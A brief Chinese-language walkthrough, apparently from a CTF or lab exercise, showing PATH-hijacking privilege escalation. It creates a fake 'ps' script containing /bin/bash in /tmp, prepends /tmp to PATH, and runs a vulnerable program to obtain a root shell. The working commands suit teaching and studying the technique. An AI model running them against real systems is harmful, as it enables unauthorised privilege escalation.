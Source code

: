 发现home目录下的那个shell有点可疑，先执行看看会发生什么

![截图](243822504a1a75d87d77598462fc2764.png)

通过执行发现该脚本执行了`ps`命令且并未使用绝对路径，源码在demo.c中可以清楚看到。

那么我们尝试更改$PATH来执行我们的恶意程序，从而获得目标主机的高权限shell

```
cd /tmp
echo "/bin/bash" > ps  //创建一个名为ps的文件，并在其中写入/bin/bash，这个文件会成为一个可执行脚本。
chmod 777 ps
echo $PATH     //输出当前的环境变量PATH，显示系统查找可执行文件的路径。
export PATH=/tmp:$PATH //将/tmp添加到环境变量中，并且先加载执行/tmp里的程序
cd /home/jobs
./shell
```

![截图](3cfd40a204db1bbe5e7a4503d237efef.png)
